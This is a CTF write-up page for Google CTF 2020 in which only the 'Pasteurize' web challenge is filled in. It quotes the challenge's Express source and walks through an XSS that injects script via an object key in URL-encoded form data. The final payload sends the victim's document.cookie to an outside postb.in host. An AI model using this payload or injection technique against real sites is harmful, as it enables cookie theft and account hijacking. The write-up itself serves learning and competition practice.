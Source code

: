 # Google CTF 2020 Writeups

![Google CTF Team Pace](googlectf_team_page.png)

## Hardware

## Crypto

### Chunk Norris

## Pwn

### Tracing

## Reversing

### Beginner

## Web

### Pasteurize

![](pasteurize_main_page.png)

> This doesn't look secure. I wouldn't put even the littlest secret in here. My source tells me that third parties might have implanted it with their little treats already. Can you prove me right?

This was a very interesting challenge. We are given a URL to view the webpage here: `https://pasteurize.web.ctfcompetition.com/`.

![](pasteurize_webpage_create.png)

After visiting the website, we see a text box where we can write some text. Upon hitting the submit button, we are redirected to a page with a unique note-id with our message. I also noticed, there was a share with TJMike (similar to report to admin in other CTFs) along with a back button.

![](pasteurize_webpage_view.png)

Based on other challenges I believed this would be an XSS challenge. Also, when I viewed the page source for a note, there was an HTML comment. I later realized there was hidden anchor tag on the create page as well

```HTML
<!-- TODO: Fix b/1337 in /source that could lead to XSS -->
```
```HTML
<a href="/source" style="display:none">Source</a>
```

The contents of the `/source` file seem to be the node.js with express running on the server. You can find the full code here: `https://pasteurize.web.ctfcompetition.com/source` and i will summarize the most important parts for this challenge below!

```js
const express = require('express');
const bodyParser = require('body-parser');
const utils = require('./utils');
const Recaptcha = require('express-recaptcha').RecaptchaV3;
const uuidv4 = require('uuid').v4;
const Datastore = require('@google-cloud/datastore').Datastore;

// Other code

/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));

// Other code

/* Who wants a slice? */
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');

// Other code

/* \o/ [x] */
app.post('/', async (req, res) => {
  const note = req.body.content;
  if (!note) {
    return res.status(500).send("Nothing to add");
  }
  if (note.length > 2000) {
    res.status(500);
    return res.send("The note is too big");
  }

  const note_id = uuidv4();
  try {
    const result = await DB.add_note(note_id, note);
    if (!result) {
      res.status(500);
      console.error(result);
      return res.send("Something went wrong...");
    }
  } catch (err) {
    res.status(500);
    console.error(err);
    return res.send("Something went wrong...");
  }
  await utils.sleep(500);
  return res.redirect(`/${note_id}`);
});

/* Make sure to properly escape the note! */
app.get('/:id([a-f0-9\-]{36})', recaptcha.middleware.render, utils.cache_mw, async (req, res) => {
  const note_id = req.params.id;
  const note = await DB.get_note(note_id);

  if (note == null) {
    return res.status(404).send("Paste not found or access has been denied.");
  }

  const unsafe_content = note.content;
  const safe_content = escape_string(unsafe_content);

  res.render('note_public', {
    content: safe_content,
    id: note_id,
    captcha: res.recaptcha
  });
});

/* Share your pastes with TJMike🎤 */
app.post('/report/:id([a-f0-9\-]{36})', recaptcha.middleware.verify, (req, res) => {
  const id = req.params.id;

  /* No robots please! */
  if (req.recaptcha.error) {
    console.error(req.recaptcha.error);
    return res.redirect(`/${id}?msg=Something+wrong+with+Captcha+:(`);
  }

  /* Make TJMike visit the paste */
  utils.visit(id, req);

  res.redirect(`/${id}?msg=TJMike🎤+will+appreciate+your+paste+shortly.`);
});

// More code :)
```

First I tried to put some HTML tags into the note.
```HTML
<h1>Heading 1</h1>
<h3>Heading 3</h3>
```

And to my surprise this does work!
![](pasteurize_html_tags.png)

Maybe this is going to be pretty easy after all? Well, I tried all the normal XSS techniques such as:
```HTML
<script>alert(1);</script>
<img src=src/that/doesnt/exist onerror=alert(1);>
<div onload=alert(1);>
```

Unfortunately nothing worked... Upon further examining the HTML page source for the note, I came accross an interesting script tag.
```HTML
<script>
    const note = "the_contents_of_the_user_note_goes_here";
    const note_id = "b0437736-2536-43da-9dc6-83045ab51b5a";
    const note_el = document.getElementById('note-content');
    const note_url_el = document.getElementById('note-title');
    const clean = DOMPurify.sanitize(note);
    note_el.innerHTML = clean;
    note_url_el.href = `/${note_id}`;
    note_url_el.innerHTML = `${note_id}`;
</script>
```

At first, I wondered if I could find a vulnerability in DOMPurify. However, when I learned that it was a very recent version, I realize that I probably couldn't. Then, I realized that since my not is being put into a script tag, could I put a double-quote to escape the string and write some JavaScript code? Upon trying, all I got was this:

```js
const note = "\"alert(1);";
```

Clearly that isn't so useful. After lots of googling and many rough hours, I got it. I was able to escape the string and put my own JavaScript code. In the node.js source, we can see that they are using `app.use(bodyParser.urlencoded({extended: true}));`. This means that this app is able to take JSON objects.
<br>
To understand how to send a JSON object in an HTTP request, we first need to understand how to send strings. Normally, the post request form data looks like this: `content=value` and then the server runs a line like `const note = req.body.content;` to get the value in content as a string where "value" is stored in note. However, we can send a post request where the data is like this: `content[key]=value` and when the server runs a line like `const note = req.body.content;`, it will parse this as an object and the value of note will be {"key":"value"}.
<br>
With this in mind, we are almost ready to create the final payload. We also look at this line of code: `const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1).replace(/</g, '\\x3C').replace(/>/g, '\\x3E');`. Although this function seems to be harmless, taking an unsafe string and replacing the `<` and `>` with their hex values, we can still abuse it. Since JSON.stringify can take both a value/string or an object, this function converts our object into a string and when it slices the `{` and `}`, we will be left with just `"key":"value".

With all this in mind, we can create a payload something like this: `content[;alert(1);//]=comment`. The object that results {";alert(1);//" : "comment"}. After running the "escape_string()" function on this we get ";alert(1);//" : "comment". Putting this into the HTML script tag from earlier we get the following:

```HTML
<script>
    const note = "";alert(1);//" : "comment"";
</script>
```

It seems we are able to escape the string and write code directly into script tag allowing us to execute any JavaScript code we want. Finally we design a payload where we add an img tag with the src set to a `postb.in` with the viewer's cookie as the get parameter

Final Payload: `content[;var i = document.createElement('img');i.setAttribute('src', 'https://postb.in/1598226543319-6224465125706/?cookie='%2Bdocument.cookie);document.body.appendChild(i);//first]=second`

### Log-Me-In

## Sandbox

### Writeonly